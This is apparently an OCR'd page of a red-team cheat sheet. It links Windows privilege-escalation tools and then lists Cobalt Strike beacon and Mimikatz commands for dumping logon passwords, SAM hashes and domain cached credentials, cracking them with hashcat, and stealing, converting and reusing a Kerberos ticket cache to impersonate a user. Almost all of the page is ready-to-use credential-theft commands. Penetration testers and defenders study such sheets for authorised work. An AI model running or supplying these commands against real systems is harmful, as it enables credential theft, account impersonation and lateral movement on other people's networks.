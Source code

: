 ### Resources
- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1
- https://github.com/GhostPack/SharpUp
- https://github.com/rasta-mouse/Watson
- https://github.com/itm4n/PrivescCheck
- https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
- https://github.com/hfiref0x/UACME


### Credentials

#### Katz

##### LogonPasswords

CS

```
beacon> logonpasswords
[...]
```

SafetyKatz

```
beacon> execute-assembly c:\tools\SafetyKatz.exe
[...]
```

##### Security Account Manager

CS

```
beacon> hashdump
[...]

beacon> mimikatz token::elevate lsadump::sam
[...]
```

##### Domain Cached Credentials

Mimikatz

```
beacon> mimikatz lsadump::cache

# linux terminal
hashcat -m 2100
```

#### Credential Cache

```
# obtain
$ proxychains scp -r root@10.0.0.23:/tmp/krb5cc_613516103_maDBOTO
[...]

# convert
$ ticketConverter.py /tmp/krb5cc_613516103_maDBOTO /tmp/stolenticket.kirbi
[...]

# impersonate
beacon> kerberos_ticket_use /tmp/stolenticket.kirbi
```
